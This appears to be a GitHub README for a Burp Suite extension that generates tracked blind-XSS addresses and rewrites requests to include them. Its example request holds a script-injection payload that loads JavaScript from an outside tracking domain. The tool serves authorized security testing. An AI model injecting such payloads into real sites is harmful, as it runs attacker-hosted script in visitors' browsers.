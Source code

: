 # What is the this tool for?

This tool can be used to generate relevant XSS addresses that can be used to track HTTP requests. By using this tool, all your injection attempts will be tracked and the reports you generate will include the full HTTP request in the final output.

# Minimum Burp Suite Version

2023.1

Because of the use of Burp Extensions API - Montoya

# Setup

You can download the jar directly and load it into burpsuite.

After loading the plugin, a new tab will be created, as shown below.

<img width="1048" alt="image" src="https://user-images.githubusercontent.com/16237562/215692824-f1174bbc-d00d-4d7e-b5b0-dd171aae7ac9.png">

Just fill in the form and click Login.

`replace` is the javascript address that needs to be replaced.

For example (`replace` is `test123`)

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: test123

content=testhello<script src="test123"></script>
```

Finally the extension will automatically update the request

```
GET /concat-us HTTP/1.1
Host: example.com
aaa: https://request-id-domain.xss.cl

content=testhello<script src="https://request-id-domain.xss.cl"></script>
```

# Where to view the request that triggered the payload

https://xss.bughunter.app/dashboard/trigger
